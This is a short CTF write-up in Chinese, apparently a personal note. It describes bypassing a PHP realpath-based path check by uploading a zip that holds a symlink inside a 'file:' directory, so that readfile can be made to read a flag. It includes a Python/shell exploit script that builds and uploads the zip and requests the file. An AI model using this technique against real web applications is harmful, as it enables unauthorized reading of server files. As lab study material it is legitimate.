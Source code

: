 tags:: CTF/Zip

- # 思路
	- 使用zip创建软链接欺骗realpath函数，让realpath将一个伪协议解析成一个路径，从而使用伪协议操纵readfile函数读取flag
- # 欺骗realpath
	- realpath: 不会解析伪协议，会将软链接解析成实际的路径
	- readfile: 会解析伪协议
	- 可以创建一个`file:`文件夹，其中放置一个软链接`flag.txt`指向`/var/www/html/index.php`，欺骗realpath将`file:///flag.txt`解析成`/var/www/html/index.php`，从而绕过正则匹配
- # zip软链接构造
	- 参考[[CTF/Zip]]
	- ```python
	  shell.exec(
	      "sudo mkdir /var/www/html; sudo touch index.php; sudo mkdir 'file:'; sudo ln -s /var/www/html/index.php file:/flag.txt; zip file.zip --symlinks file:/flag.txt"
	  )
	  with open("file.zip", "rb") as f:
	      r = base_post(url, files={"file": ("a.zip", f)})
	  
	  shell.exec("rm file.zip; sudo rm /var/www/html/index.php; sudo rm file:/flag.txt; sudo rm -d file:/")
	  
	  r = base_get(url, params = {
	      "file": "file:///flag.txt"
	  })
	  print(r.text)
	  
	  ```